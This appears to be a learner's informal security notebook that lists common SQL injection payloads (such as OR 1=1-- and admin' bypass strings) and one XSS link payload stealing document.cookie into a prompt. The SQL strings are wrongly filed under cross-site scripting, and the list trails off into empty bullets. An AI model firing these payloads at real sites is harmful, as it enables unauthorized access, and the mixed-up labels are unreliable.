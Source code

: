 # Klein
Calvin Security Learning stuff lol


NOTEBOOK sorta, slightly unorganized, catagorized but could be neater.

"-" is a makeshift bulletpoint, not apart of whats typed after. eg 

-  'lol = "'lol" 
  
and not =/=

"-  'lol"

#Cross Site Scripting

Cross Site Scripting (XSS) attacks are a type of injectoin, in which scripts are injected into an otherwise 
trusted and reputable website.

Some I like to give a crack are;

XSS in HTML/Applications

- ' or '
- OR "" = "
- '=0--+
- 'LIKE'
- - ' AND id IS NULL; --
- '''''''''''''UNION SELECT '2


Bypass word blacklist with code evaluation

- OR 1=1
- OR 1=1-- 
- OR 3409=3409 AND ('pytW' LIKE 'pytW
- %' AND 8310=8310 AND '%'='
- AND 1=1 AND '%'='


[a](javascript:prompt(document.cookie))

- admin') or ('1'='1'--
- or true--
- admin') or ('1'='1'#
- ' or ''&'
- admin') or ('1'='1'/
 
 
Ordre and Union based palloads

  Open Linux VM and check which ones had the most promising outcomes based on previous use cases Novemeber calvin
  
-
-
-
-
-






































